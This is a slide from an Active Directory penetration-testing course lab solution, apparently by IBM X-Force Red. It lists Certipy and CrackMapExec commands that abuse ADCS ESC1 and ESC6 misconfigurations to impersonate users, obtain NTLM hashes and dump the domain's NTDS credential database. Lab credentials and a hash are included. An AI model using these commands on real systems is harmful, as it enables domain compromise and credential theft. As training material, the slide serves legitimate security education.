

# DA Privilege Escalation > Lab 4 – Solution Continued
ADCS ESC 1
certipy req -u backup@fmradio.local -p backup1 -ca fmradio-EAGLE-CA01-CA-1 -target eagle-ca01.fmradio.local -template macUsers -upn rod -out rodpwned
certipy auth -pfx rodpwned.pfx -username rod -domain fmradio.local -dc-ip 172.16.14.200
cme smb 172.16.14.200  -u rod -H dd3a59abc33c6b677447c9917c268af9 --ntds
ADCS ESC 6
certipy req -u backup@fmradio.local -p backup1 -ca fmradio-EAGLE-CA01-CA-1 -target eagle-ca01.fmradio.local -template User -upn administrator -out adminpwned
certipy auth -pfx pwned.pfx -username Administrator -domain fmradio.local -dc-ip 172.16.14.200

IBM Security X-Force Red / © 2023 IBM Corporation
62